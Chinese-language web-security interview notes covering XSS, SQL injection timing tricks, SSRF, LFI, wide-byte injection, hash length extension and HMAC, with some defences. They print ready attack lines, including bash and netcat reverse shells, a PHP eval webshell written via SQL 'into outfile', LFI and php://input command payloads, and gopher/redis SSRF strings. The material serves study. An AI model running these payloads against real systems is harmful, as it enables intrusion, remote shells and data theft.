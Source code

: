 ### dom xss
	注入方式是本地客户端的js处理用户输入时，发生的xss
	主要有三种方式：
	1) document.getElementBtId('a').innerHTML = $var$
		$var$ = alert(1)不会执行，需要使用 <img src="" onerror=alert(1);>
	2) document.location = $var$
		可以使用js伪协议，$var$ = javascript:alert(1)
	3) eval($var$)
		$var$ = alert(1)，其他执行库也可以，setInterval(),setTimeout()

### 富文本XSS防御
	1) 前后端穷举有限标签和属性，进行白名单过滤。后端不能直接信任前端数据，需要基于白名单再次过滤。推荐django-xss-cleaner
	2) 后端转义存储，前端展示时，进行黑名单过滤。推荐使用 js-xss。
	
### xss 触发事件
	onclick, onerror, onload, onmouseenter, onmouseleave, onscroll ...

### mysql 事件盲注延迟方法
	1) sleep(5)
	2) benchmark(10000,sha(1))  基准测试，可以观察系统在不同压力下的行为。
	3) 笛卡尔积，一般耗费资源
```
	SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;
```
	4) get_lock(name, timeout)，需要开两个session
```
SESSION A

mysql> select get_lock('test',1);

1 row in set (0.00 sec)
SESSION B

mysql> select get_lock('test',5);

1 row in set (5.00 sec)
```
	5) rpad或repeat构造长字符串，使用RLIKE匹配，使计算量增大，原理类似笛卡尔积
```
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```

### linux 反弹shell
	bash -i >& /dev/tcp/${ip}/${port} 0>&1
	nc -c(-e) /bin/sh ${ip} ${port}
[](http://www.lovebear.top/2018/09/16/Linux_shell/)
	
### sqlmap --os-shell条件
	1) 网站是root权限
	2) 知道网站的绝对路径
		a. phpinfo
		b. select load_file('/etc/apache2/sites-available/default')
		   select load_file(char(47))  char(47)-->'/', load_file == cat，可以列出目录
			P.S. secure-file-priv需关闭，限制into outfile，load_file
		c. show variables like 'datadir'; 获取mysql安装目录
		d. 报错
			user[]=1&passwd[]=1,  等, 后端代码处理不了数组，进行报错
	3) gpc为off，php主动转义功能关闭
	
### sql注入写shell方式
	1) select '<?php @eval($_POST[cmd]);?>' into outfile '/home/shell.php'
	2) sqlmap --os-shell
	
### mysql爆表
	1) information_schema.tables
	2) 5.6以上：
		select group_concat(table_name) from mysql.innodb_table_stats where database_name=schema()
		select group_concat(table_name) from mysql.innodb_index_stats where database_name=schema()

### mysql字符串截取函数
	1) substring(str, pos, length), pos从1开始
	2) substr(str, pos, length)
	3) mid(str, pos, length)
	4) left(str, length)

### arp欺骗及防御
	攻击者A，受害者B
	A 在网络中发送大量的伪造的ARP应答，当网络中的主机询问B的mac时，收到A伪造的
	Arp应答包，并写入ARP缓存，本要与B通信的流量全被A所劫持。
	防御：DHCP保留网上各计算机的MAC地址，在伪造的ARP数据包发出时即可侦测到。

### ssrf
	1) 概念：
	SSRF(服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
	2) 形成原因：
	大都是由于服务端提供了从其他服务器应用获取数据的功能，且没有对目标地址做过滤
	与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，文档，等等。
	3) 利用：
	内网端口服务探测，敏感文件读取，等等。
		a. file:///etc/passwd 读文件
		b. dict://victim:80 扫开放端口
		   dict://victim:6379/info 执行redis命令
		c. gopher://victim:6379/${gopher_shell_data}
			socat截获转发bash脚本，获取到tcp的data，转换为gopher格式的${gopher_shell_data}
	4) 寻找漏洞：
	分享：通过URL地址分享网页内容，url形式加载图片，未公开的api，转码、翻译页面
	5) 防御：
		a. 只允许http(s)协议
		b. 设置白名单
		c. 过滤返回信息
		d. 限制请求的端口(不让请求6379等)
	

### 本地文件包含
	1) php函数：include(), require(), include_once(), require_once()
		包含失败include警告，require错误
		php文件包含机制有个特性：哪怕被包含的文件是个txt文件，它也会被包含文件
		所在的服务器当作脚本去执行
	2) 利用方式：
		a. 基本LFI，直接读取出文件内容，如/etc/passwd。
			有些网站为了防止目录穿越，过滤了 ../ ,这时可以使用绝对路径进行文件读取
		b. %00截断（php5.3以下，不能转义magic_quotes_gpc设置为off）
			有些网站为了防御，会为文件加后缀，可以使用%00进行截断
		c. php://filter/read=convert.base64encode/resource=/etc/passwd
			安全级别高，且无法查看内容
		d. lan=php://input&cmd=ls	postdata="<?php system($_GET['cmd']);?>"
			使用php://input函数，通过执行注入PHP代码来利用LFI漏洞
		e. ../../../Proc/self/environ
			User-Agent的信息会被写入/proc/self/environ，可以将小马写入这个文件，
			然后本地包含/proc/self/environ，执行php命令

### 宽字节注入
	1) 形成原因：
	配置mysql连接的时候 set character_set_client=gbk，%27(')被转义后变成%5c%27(\'),
	查询mysql前，被gbk编码翻译，输入的%df与%5c被翻译成两字节的汉字，从而“吃”了%5c
	2) 防御：
	set character_set_client=binary 或 utf8
	3) 其他：
	多字节编码多可以导致宽字节注入，但需要能翻译低字节为%5c的，big5也可以，utf8不可以
### 哈希长度扩展攻击
	1) Merkle–Damgård算法（md5，sha1）
![](https://github.com/cckuailong/Interview/blob/master/images/hash.png)

	每512字节分成一块，最后一块使用1000...进行填充，最后64字节存放原始字符串长度。
	2) 哈希长度扩展攻击
	由于后一块的输入是前一块的输出+message，所以只需要知道前一块的message长度和前一块的
	hash输出，即可在不知道pre_msg具体内容的情况下计算出这样的hash值，
	pre_msg+'1000...'+len(pre_msg)+'任意字符串'
### python2,3区别
	1) 编码 python2默认ascii，python3默认unicode
	2) import python2相对路径，python3绝对路径
	3) python3缩进更严格，python2 1tab == 8space
	4) python3统一使用print()函数，异常处理语句也放生变化，等等
	5) python3中 '/' 为真除法
	
### HMAC
	1) 计算方式：
		HMAC(K,M)=H(K⊕opad|H(K⊕ipad|M))
		K: 秘钥
		M: 消息
		B: 处理块大小，sha1和sha256为64，sha384和sha512为128
		opad: 0x5c重复B次
		ipad: 0x36重复B次
	2) 用途：
		用于身份验证，C-->S 发送密码HMAC后的消息进行验证
	3) 安全性：
		防御彩虹表，拿到散列后信息，由于没有K，无法获得发送的原始密码。
		但是不能防止重放攻击。
	4) CMAC: 分组哈希，也使用K，每个组H(K,M[i])后异或下一组的M[i+1],作为输入